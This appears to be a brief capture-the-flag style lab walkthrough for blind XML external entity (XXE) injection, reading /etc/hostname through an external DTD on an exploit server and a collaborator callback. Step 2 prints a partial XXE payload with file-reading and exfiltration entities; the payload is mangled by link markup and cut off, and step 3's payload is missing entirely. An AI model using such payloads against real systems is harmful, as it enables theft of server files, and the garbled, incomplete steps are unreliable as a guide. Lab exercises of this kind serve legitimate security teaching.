




This lab has a "Check stock" feature that parses XML input but does not display the result. To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

  
1\. Notice that the check stock feature sends and XML in the request.

  
 2\. We are going to create an external TDT for this XML in the exploit server, using the payload:   
 `<!ENTITY % file SYSTEM "[file:///etc/hostname"&gt;](# "file:///etc/hostname%22&gt;") <!ENTITY % eval " %eval; %exfil;`  
 Click on view exploit and take note of the url  
   
  3\. Now go to check stock feature again, intercept the request, and change the payload to:  
   
 You will receive and interaction in the collaborator and copy the code, that's the solution.  
 